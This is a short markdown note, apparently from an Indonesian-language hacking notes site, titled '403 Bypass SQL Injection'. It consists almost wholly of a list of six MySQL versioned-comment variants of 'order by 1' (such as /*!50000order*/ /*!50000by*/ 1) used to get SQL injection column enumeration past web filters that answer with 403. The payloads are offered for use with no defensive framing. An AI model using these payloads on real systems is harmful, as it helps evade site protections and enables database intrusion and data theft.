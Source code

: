 ```yaml
---
title: "403 Bypass SQL Injection"
collection: wantToKnow
permalink: /wantToKnow/403BSQLI/
tags:
  - SQL
  - SQL Injection
  - SQLi
  - 403 Error
  - Bypass
---
```


Assalamualaikum, Cara bypass 403 saat SQL Injection ?

- `/*!order*/ /*!by*/ 1`
- `/*!50000order*/ /*!50000by*/ 1`
- `/*!51000order*/ /*!50000by*/ 1`
- `/*!12345order*/ /*!12345by*/ 1`
- `/*!50000order/**-**/*/ /*!50000by*/ 1`
- `/*!50000order/**-**/*/ /*!50000by/**-**/*/ 1`
